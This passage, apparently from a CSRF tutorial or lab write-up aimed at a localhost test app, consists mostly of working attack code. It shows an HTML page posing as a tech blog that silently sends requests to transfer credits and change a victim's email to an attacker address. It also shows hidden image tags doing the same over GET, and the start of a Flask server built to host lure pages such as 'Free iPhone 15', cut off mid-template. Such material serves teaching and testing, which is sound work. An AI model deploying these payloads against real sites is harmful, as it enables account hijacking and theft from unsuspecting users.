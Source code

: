 ```html
<!DOCTYPE html>
<html>
<head>
    <title>Tech Blog</title>
</head>
<body>
    <h1>Latest Tech News</h1>
    <p>Reading this article performs CSRF attacks in background...</p>
    
    <script>
        // CSRF via AJAX (works if server accepts)
        function csrfAttack() {
            // Attack 1: Transfer credits
            var xhr1 = new XMLHttpRequest();
            xhr1.open('POST', 'http://localhost:8000/transfer-credits/', true);
            xhr1.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
            xhr1.send('recipient=evil_hacker&amount=500');
            
            // Attack 2: Change email
            var xhr2 = new XMLHttpRequest();
            xhr2.open('POST', 'http://localhost:8000/update-email/', true);
            xhr2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
            xhr2.send('email=pwned@attacker.com');
        }
        
        // Execute after page loads
        setTimeout(csrfAttack, 500);
    </script>
</body>
</html>
```

### 3. Image Tag CSRF (GET Requests)

```html
<!-- If the endpoint accepted GET requests -->
<img src="http://localhost:8000/transfer-credits/?recipient=attacker&amount=100" 
     style="display:none">

<!-- Multiple attacks via images -->
<img src="http://localhost:8000/update-email/?email=stolen@evil.com" 
     style="display:none">
```

## Proof of Concept Scripts

### 1. CSRF Attack Server
```python
#!/usr/bin/env python3
"""
CSRF Attack Server - Hosts malicious pages
"""

from flask import Flask, render_template_string
import sys

app = Flask(__name__)

CSRF_TEMPLATE = """
<!DOCTYPE html>
<html>
<head>
    <title>Free iPhone 15 - Click Here!</title>
```